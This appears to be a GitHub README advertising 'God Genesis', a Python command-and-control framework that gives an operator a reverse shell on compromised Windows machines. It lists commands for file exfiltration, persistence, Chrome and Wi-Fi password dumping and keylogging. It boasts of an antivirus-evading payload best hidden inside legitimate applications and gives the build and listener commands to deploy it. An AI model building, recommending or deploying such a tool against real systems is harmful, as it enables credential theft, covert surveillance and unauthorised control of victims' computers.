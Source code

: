 # Welcome To God Genesis
![FinalGod](https://user-images.githubusercontent.com/66937297/175554898-58c56076-7cf9-4b1d-9d5d-2f2b27a9c0e3.png)

God Genesis is a C2 server purely coded in Python3 created to help Red Teamers and Penetration Testers. 
Currently It only supports TCP reverse shell but wait a min, its a FUD and can give u admin shell from any targeted WINDOWS Machine.

## The List Of Commands It Supports
**BASIC COMANDS**
| Command       |Description|
| ------------- |:---------:|
| help    | Show help menu |
| terminate |  Exit the shell completely |
| exit | Exit to C2 server prompt (Shell works in background)|
| clear | Clear the previous output|

***
**SYSTEM COMANDS**
| Command       |Description|
| ------------- |:---------:|
| cd   | Change directory |
| pwd  | Print current working directory |
| mkdir *dir_name* | Create a specified directory |
|  rm *dir_name*   | Delete a specified directory |
| powershell <command>  | Run Powershell command |
|  start *exe_name*   | Start a specified executable |

***
**INFORMATION GATHERING COMMANDS**
| Command       |Description|
| ------------- |:---------:|
| env | Checks enviornment variables |
| sc  | List all running services |
| user  | Current user |
| info  | Get all information about compromised system |
| av | List all antivirus(es) in compromised system |
                        
***
**DATA EXFILTRATION COMMANDS**
| Command       |Description|
| ------------- |:---------:|
| download *file_name*  | Download files from compromised system |
| upload *file_name*    | Upload files to compromised system     |

***
**EXPLOITATION COMMANDS**
| Command       |Description|
| persistence1  | Persistence via Method 1 |
|  persistence2 | Persistance via Method 2 |
| get | Download files from any url |
| chrome_pass_dump  | Dump all stored passwords from Chrome browser |
|  wifi_password  | Dump passwords of all saved Wifi networks |
| keylogger | Start keylogger |
| dump_keylogger  | Dump all logs done by keylogger | 
| python_install  | Install Python on compromised pc without UI |


# Features Of Our Framework :-
> Check the video to get a detailed tutorial

- [x] The Payload.py is a FULLY UNDETECTABLE(FUD) use your own techniques for making an exe file. (Best Result When Backdoored With Some Other Legitimate Applictions)
- [x] Able to perform privilege escalation on any windows systems.
- [x] Fud keylogger
- [x] 2 ways of achieving persistance 
- [x] Recon automation to save your time.



# How To Use Our Tool: 
## Building the payload
```
python3 c2c.py build --ip <ip> --port <port> -output <output_filename>
```
> This will generate a payload with the name specified in the --output option, the payload will have a .py extension

```
git clone https://github.com/SaumyajeetDas/GodGenesis.git
```

```
pip3 install -r requirements.txt
```

```
python3 c2c.py <mode> --ip <ip> --port <port>
```

## Arguments
| Argument       |Description|
| ------------- |:---------:|
| mode    | mode (build, listen) |
| ``-i/--ip`` |  ip |
| ``-p/--port`` | port |
| ``-o/--outfile`` | payload output filename (works with build mode)|

> It is worth mentioning that [Suman Chakraborty](https://github.com/ANON4MOUS)
has contributed to the framework by coding the Fud Keyloger, Wifi Password Extraction and Chrome Password Dumper modules. 


https://user-images.githubusercontent.com/66937297/175561859-a0e9f9dd-1e59-46da-a8e9-197d800bee37.mp4
